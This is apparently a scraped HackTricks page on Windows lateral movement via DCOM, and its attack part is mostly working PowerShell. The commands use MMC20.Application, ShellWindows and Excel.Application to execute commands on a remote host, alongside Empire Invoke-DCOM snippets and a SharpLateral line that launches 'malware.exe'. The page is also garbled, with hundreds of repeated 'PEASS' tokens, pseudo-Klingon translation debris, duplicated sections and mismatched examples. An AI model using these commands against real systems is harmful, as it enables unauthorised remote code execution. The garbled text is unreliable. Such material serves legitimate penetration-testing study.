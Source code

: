 # DCOM Exec

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a> <strong>qaStaHvIS</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* <strong>qaStaHvIS</strong> <a href="https://github.com/sponsors/carlospolop"><strong>carlospolop</strong></a> <strong>?</strong> <strong>qaStaHvIS</strong> <a href="https://github.com/sponsors/carlospolop"><strong>carlospolop</strong></a> <strong>?</strong> <strong>qaStaHvIS</strong> <a href="https://github.com/sponsors/carlospolop"><strong>carlospolop</strong></a> <strong>PEASS</strong> <strong>qaStaHvIS</strong> <a href="https://github.com/sponsors/carlospolop"><strong>carlospolop</strong></a> <strong>PDF</strong> <strong>qaStaHvIS</strong> <a href="https://github.com/sponsors/carlospolop"><strong>carlospolop</strong></a> <strong>?</strong> <strong>qaStaHvIS</strong> <a href="https://github.com/sponsors/carlospolop"><strong>carlospolop</strong></a> <strong>PEASS</strong> <strong>qaStaHvIS</strong> <a href="https://github.com/sponsors/carlospolop"><strong>carlospolop</strong></a> <strong>PEASS</strong> <strong>qaStaHvIS</strong> <a href="https://github.com/sponsors/carlospolop"><strong>carlospolop</strong></a> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <strong>PEASS</strong> <
```bash
Get-CimInstance Win32_DCOMApplication
```
# DCOM Exec

The COM object, [MMC Application Class (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx), enables scripting of MMC snap-in operations. Notably, this object contains a `ExecuteShellCommand` method under `Document.ActiveView`. More information about this method can be found [here](https://msdn.microsoft.com/en-us/library/aa815396\(v=vs.85\).aspx). Check it running:

This feature facilitates the execution of commands over a network through a DCOM application. To interact with DCOM remotely as an admin, PowerShell can be utilized as follows:
```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("<DCOM_ProgID>", "<IP_Address>"))
```
**Check methods:**

1. **DCOM** (Distributed Component Object Model) is a protocol that allows software components to communicate across a network. It is used for remote procedure calls (RPC) between Windows machines. DCOM can be used for lateral movement in a network.

2. **ExecuteShellCommand** is a method that can be invoked on a COM object to execute a shell command on the remote host. This method allows an attacker to run arbitrary commands on the target machine.

3. **Remote host** refers to the target machine that the attacker wants to compromise or gain access to.

4. **Process execution** involves running a command or program on the remote host. This can be used by an attacker to perform various actions, such as running malicious scripts, installing backdoors, or executing other hacking techniques.

By understanding these methods, an attacker can leverage DCOM and the ExecuteShellCommand method to execute commands on a remote host and potentially gain unauthorized access to the target system.
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com.Document.ActiveView | Get-Member
```
Get RCE: 

ghItlh RCE:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com | Get-Member

# Then just run something like:

ls \\10.10.10.10\c$\Users
```
## ShellWindows & ShellBrowserWindow

**For more info about this technique check the original post [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)**

The **MMC20.Application** object was identified to lack explicit "LaunchPermissions," defaulting to permissions that permit Administrators access. For further details, a thread can be explored [here](https://twitter.com/tiraniddo/status/817532039771525120), and the usage of [@tiraniddo](https://twitter.com/tiraniddo)’s OleView .NET for filtering objects without explicit Launch Permission is recommended.

Two specific objects, `ShellBrowserWindow` and `ShellWindows`, were highlighted due to their lack of explicit Launch Permissions. The absence of a `LaunchPermission` registry entry under `HKCR:\AppID\{guid}` signifies no explicit permissions.

###  ShellWindows
For `ShellWindows`, which lacks a ProgID, the .NET methods `Type.GetTypeFromCLSID` and `Activator.CreateInstance` facilitate object instantiation using its AppID. This process leverages OleView .NET to retrieve the CLSID for `ShellWindows`. Once instantiated, interaction is possible through the `WindowsShell.Item` method, leading to method invocation like `Document.Application.ShellExecute`.

Example PowerShell commands were provided to instantiate the object and execute commands remotely:
```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>")
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.Item()
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```
### Lateral Movement with Excel DCOM Objects

Lateral movement can be achieved by exploiting DCOM Excel objects. For detailed information, it's advisable to read the discussion on leveraging Excel DDE for lateral movement via DCOM at [Cybereason's blog](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom).

The Empire project provides a PowerShell script, which demonstrates the utilization of Excel for remote code execution (RCE) by manipulating DCOM objects. Below are snippets from the script available on [Empire's GitHub repository](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1), showcasing different methods to abuse Excel for RCE:

### Excel DCOM-Objects jImej

DCOM Excel jImej jImejtaHvISbe'chugh jImej. jImej DCOM Excel DDE jImejtaHvISbe'chugh vItlhutlhlaHbe'lu'pu' Cybereason's blog [yIlo' blog](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom) Daq yIlo'lu'.

Empire project PowerShell script jImej, DCOM jImejtaHvISbe'chugh Excel RCE (remote code execution) jImejtaHvISbe'chugh vItlhutlhlaHbe'lu'pu' jImej. Empire's GitHub repository [yIlo' repository](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1) Daq jImejtaHvISbe'chugh Excel RCE jImejtaHvISbe'chugh vItlhutlhlaHbe'lu'pu' jImej:
```powershell
# Detection of Office version
elseif ($Method -Match "DetectOffice") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$isx64 = [boolean]$obj.Application.ProductCode[21]
Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
# Registration of an XLL
elseif ($Method -Match "RegisterXLL") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$obj.Application.RegisterXLL("$DllPath")
}
# Execution of a command via Excel DDE
elseif ($Method -Match "ExcelDDE") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$Obj.DisplayAlerts = $false
$Obj.DDEInitiate("cmd", "/c $Command")
}
```
### Automation Tools for Lateral Movement

Two tools are highlighted for automating these techniques:

- **Invoke-DCOM.ps1**: A PowerShell script provided by the Empire project that simplifies the invocation of different methods for executing code on remote machines. This script is accessible at the Empire GitHub repository.

- **SharpLateral**: A tool designed for executing code remotely, which can be used with the command:
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## Automatic Tools

* The Powershell script [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1) allows to easily invoke all the commented ways to execute code in other machines.
* You could also use [**SharpLateral**](https://github.com/mertdas/SharpLateral):
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## References

* [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)
* [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)

<figure><img src="../../.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

Find vulnerabilities that matter most so you can fix them faster. Intruder tracks your attack surface, runs proactive threat scans, finds issues across your whole tech stack, from APIs to web apps and cloud systems. [**Try it for free**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) today.

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
